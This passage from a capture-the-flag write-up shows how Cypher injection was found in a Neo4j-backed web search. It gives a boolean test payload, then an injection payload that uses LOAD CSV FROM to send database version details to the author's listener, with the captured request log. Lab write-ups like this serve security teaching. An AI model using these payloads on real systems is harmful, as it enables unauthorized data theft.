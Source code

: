     MATCH (e:employee) WHERE e.name CONTAINS '0xdf' or '1'='1' RETURN e



It loads 5 rows, the same as an empty search.:

![](/img/image-20230424152258451.png)

Given that' none of those have "0xdf" in them, that's proof of
injection!

#### Extracting Information

The Hacktricks page on [Cypher
injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j#get-labels)
has a bunch of good payloads to use from here. It's easier to exfil the
data base to my server than to get it formatted correctly to go onto the
webpage. I'll make use of `LOAD CSV FROM` to generate out going
requests.

I'll start with this payload to get version information:



    ' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.6/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // 



I've updated it to use my IP, and on sending it, I get results:



    10.10.11.210 - - [24/Apr/2023 15:32:14] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
    10.10.11.210 - - [24/Apr/2023 15:32:14] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
